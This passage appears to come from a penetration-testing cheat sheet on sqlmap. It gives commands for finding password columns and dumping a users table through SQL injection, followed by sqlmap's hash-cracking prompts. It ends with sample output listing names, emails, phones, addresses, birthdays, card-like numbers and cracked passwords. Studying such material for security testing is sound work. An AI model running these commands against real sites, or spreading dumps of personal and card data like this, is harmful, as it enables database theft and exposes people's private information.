 ### Searching for Columns
To search for all column names containing a specific keyword (e.g., `pass`):

```bash
sqlmap -u "http://www.example.com/?id=1" --search -C pass
```

**Example Output:**

```plaintext
columns LIKE 'pass' were found in the following databases:
Database: owasp10
Table: accounts
[1 column]
+----------+------+  
| Column   | Type |
+----------+------+  
| password | text |
+----------+------+  
```

## Password Enumeration and Cracking

### Dumping Table Data
To dump a specific table containing passwords:

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

**Example Output:**

```plaintext
[INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to crack them via a dictionary-based attack? [Y/n/q] Y

[INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1

[INFO] starting dictionary-based cracking (sha1_generic_passwd)
```

**Example Cracked Data:**

```plaintext
Database: master
Table: users
[32 entries]
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------+
| id | cc               | name              | email                       | phone        | address                | birthday          | password                      |
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------+
| 1  | 5387278172507117 | Maynard Rice      | MaynardMRice@yahoo.com      | 281-559-0172 | 1698 Bird Spring Lane  | March 1 1958      | 3052                          |
| 2  | 4539475107874477 | Julio Thomas      | JulioWThomas@gmail.com      | 973-426-5961 | 1207 Granville Lane    | February 14 1972  | taqris                        |
```
